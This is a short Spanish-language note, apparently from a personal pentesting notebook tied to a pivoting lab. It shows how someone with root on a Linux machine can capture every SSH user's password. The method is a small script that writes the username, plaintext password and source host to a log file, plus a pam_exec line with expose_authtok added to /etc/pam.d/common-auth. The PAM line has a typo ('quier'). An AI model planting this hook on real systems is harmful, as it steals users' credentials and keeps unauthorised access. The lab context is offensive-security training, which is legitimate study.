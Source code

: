 [[Lab Pivoting, Tunneling And Port-Forwarding - Synfonos 1-2-3]]
#pivoting 
Una vez que seamos usuarios root de una máquina, podemos recibir credenciales de ssh de todos los usuarios que entren por SSH; y el proceso será el siguiente:

- PASO 1 - Crear un script llamado no.sh con el siguiente código, que si lo ejecutamos permanecerá a la escucha esperando para recibir credenciales del usuario:
```bash
echo "$(date) $PAM_USER, $(cat-), From: $PAM_RHOST" >> /var/log/dame_contraseña.log
```

![[Pasted image 20240615203151.png]]

- PASO 2 - Editamos el fichero /etc/pam.d/common-auth; y añadimos esta línea justo al final, donde hacemos el llamamiento al script que antes hemos creado:

```bash
auth optional pam_exec.so quier expose_authtok /home/mario/no.sh
```

![[Pasted image 20240615203202.png]]

Por tanto ahora simplemente ejecutamos el script no.sh y estará a la escucha esperando a recibir alguna conexión para enviarnos las credenciales de dicho usuario al fichero /var/log/dame_contraseña.log:

![[Pasted image 20240615203222.png]]

Y ahora si iniciamos sesión por ssh, habremos recibido las credenciales:

![[Pasted image 20240615203226.png]]
